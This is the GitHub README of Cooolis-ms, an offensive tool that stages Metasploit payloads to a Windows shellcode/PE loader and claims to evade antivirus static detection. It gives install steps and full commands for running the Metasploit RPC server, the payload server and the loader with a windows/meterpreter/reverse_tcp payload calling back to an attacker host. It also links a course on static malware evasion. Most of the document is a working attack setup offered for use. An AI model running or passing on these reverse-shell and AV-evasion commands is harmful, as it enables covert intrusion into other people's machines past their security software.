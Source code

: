 # Cooolis-ms

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。


Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

## 该项目的优点

- 体积小（>=100KB）
- 支持Metasploit所有Payload
- 支持Windows XP + / Windows 2003 +
- 参数设置方便
- 单文件
- 分离的

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)


## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：

You need to start the Metasploit RPC server first:

IP : 172.16.143.1

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：

Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 172.16.143.1

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 172.16.143.1
```

IP : 172.16.143.2

```
Windows > Coolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=172.16.143.1,LPORT=8876 -H 172.16.143.1 -P 8899
```

## Cooolis-ms server

```
usage: Cooolis-ms [-h] -U USERNAME -P PASSWORD [-H HOST] [-p PORT] [-S SERVER]
                  [-l LISTEN] [-u URI] [-t {exe,ruby,c,dll,vbs,powershell}]
                  [-s] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -U USERNAME, --username USERNAME
                        Metasploit web service username
  -P PASSWORD, --password PASSWORD
                        Metasploit web service password
  -H HOST, --host HOST  Metasploit web service host, Default: localhost
  -p PORT, --port PORT  Metasploit RPC service port, Default: 55553
  -S SERVER, --server SERVER
                        Payload sender listen host, Default: localhost
  -l LISTEN, --listen LISTEN
                        Payload listen port, Default: 1111
  -u URI, --uri URI     Metasploit RPC service uri, Default: /api/1.0/
  -t {exe,ruby,c,dll,vbs,powershell}, --type {exe,ruby,c,dll,vbs,powershell}
                        Payload Type
  -s, --ssl             Enable ssl, Default: True
  -v, --versobe         Enable debug
```

## Cooolis-ms Loader


![](./pic/demo.png)

```
[*]Usage : Cooolis-ms.exe -p [PAYLOAD] -s [PAYLOAD OPTIONS] -H [Stager Host] -P [Stager Port]
         -p [PAYLOAD]    MSF PAYLOAD TYPE
         -s [PAYLOAD OPTIONS]    MSF PAYLOAD OPTIONS
         -H [Stager Host]        Cooolis-Server Host
         -P [Stager Port]        Cooolis-Server Port
[*]Example : Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=192.168.1.1,LPORT=1122 -H 192.168.2.1 -P 4444
```

## About other | 关于其他

~~后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。~~


~~Subsequent I will write a collection of generic loader clients for the Windows platform into this project.~~

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
